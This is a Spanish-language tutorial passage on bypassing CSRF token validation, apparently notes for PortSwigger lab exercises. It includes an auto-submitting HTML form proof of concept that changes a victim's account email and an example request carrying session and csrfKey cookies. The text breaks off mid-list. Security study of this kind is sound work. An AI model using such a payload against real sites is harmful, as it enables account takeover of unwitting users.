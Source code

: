 ### La validación de CSRF Token depende de si esta presente

Algunas aplicaciones solo validan el csrf token cuando esta presente si lo eliminamos completamente puede que no se haga dicha validación, para comprobarlo basta con realizar la petición sin el parámetro del token y observar si se realiza con éxito.

Laboratorio [aquí](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present).

### El CSRF token no esta vinculado a la sesión

Se puede dar el caso que el token no este vinculado a la sesión y exista una lista de tokens validos, por lo que se puede utilizar el token de la sesión del atacante para explotar la vulnerabilidad.

Una PoC podría ser la siguiente:

```bash
<html>
    <body>
        <form action="https://URL-Vulnerable/my-account/change-email" method="POST" >
            <input type="hidden" name="email" value="antu97@test.com" />
            <input type="hidden" name="csrf" value="Token del atacante" />
        </form>
        <script>
      document.forms[0].submit();
    </script>
    </body>
</html>
```

Laboratorio  [aquí](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session).

### El CSRF Token esta vinculado a una cookie distinta a la de sesión

```jsx
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=test@test.com
```

Se puede dar el caso de que el token no esta ligado a la cookie que trackea la sesión y este ligada a otra(csrfkey). Para testear primero debemos probar:

4.1 Comprobar que la cookie(csrfkey) no esta ligado al token

- Introducir un token no valido
- introducir un token de otro usuario

4.2  Introducir una cookie(csrf Key) y token de otro usuario
